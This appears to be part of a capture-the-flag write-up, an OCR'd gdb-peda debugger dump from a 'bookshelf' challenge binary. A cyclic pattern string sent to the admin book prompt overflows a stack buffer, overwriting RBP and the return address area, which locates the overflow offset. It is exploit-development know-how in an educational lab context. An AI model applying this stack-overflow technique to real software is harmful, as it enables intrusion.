 ```
You're an admin so I trust that you will be responsible with writing this very special book...
 >> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa


[----------------------------------registers-----------------------------------]
RAX: 0xc ('\x0c')
RBX: 0x7fffffffe6f8 --> 0x7fffffffea0b ("/home/vulnx/CTFs/Patriot/bookshelf/bookshelf")
RCX: 0x7ffff7d00aa4 (<write+20>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0 
RSI: 0x4052a0 ("Book saved!\nmin so I trust that you will be responsible with writing this very special book...\n")
RDI: 0x7ffff7e3c710 --> 0x0 
RBP: 0x6161616e6161616d ('maaanaaa')
RSP: 0x7fffffffe5a8 ("oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa\n")
RIP: 0x401634 (<adminBook+114>:    ret)
R8 : 0x405715 --> 0x0 
R9 : 0x0 
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe708 --> 0x7fffffffea38 ("SHELL=/bin/zsh")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
R15: 0x403df8 --> 0x4011b0 (<__do_global_dtors_aux>:    endbr64)
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40162d <adminBook+107>:    call   0x401090 <puts@plt>
   0x401632 <adminBook+112>:    nop
   0x401633 <adminBook+113>:    leave
=> 0x401634 <adminBook+114>:    ret
   0x401635 <main>:    endbr64
   0x401639 <main+4>:    push   rbp
   0x40163a <main+5>:    mov    rbp,rsp
   0x40163d <main+8>:    sub    rsp,0x30
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe5a8 ("oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa\n")
0008| 0x7fffffffe5b0 ("qaaaraaasaaataaauaaavaaawaaaxaaayaaa\n")
0016| 0x7fffffffe5b8 ("saaataaauaaavaaawaaaxaaayaaa\n")
0024| 0x7fffffffe5c0 ("uaaavaaawaaaxaaayaaa\n")
0032| 0x7fffffffe5c8 ("waaaxaaayaaa\n")
0040| 0x7fffffffe5d0 --> 0x6169000a61616179 ('yaaa\n')
0048| 0x7fffffffe5d8 --> 0x61336a6161 ('aaj3a')
0056| 0x7fffffffe5e0 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000401634 in adminBook ()
gdb-peda$
```

*RBP: 0x6161616e6161616d ('maaanaaa')*
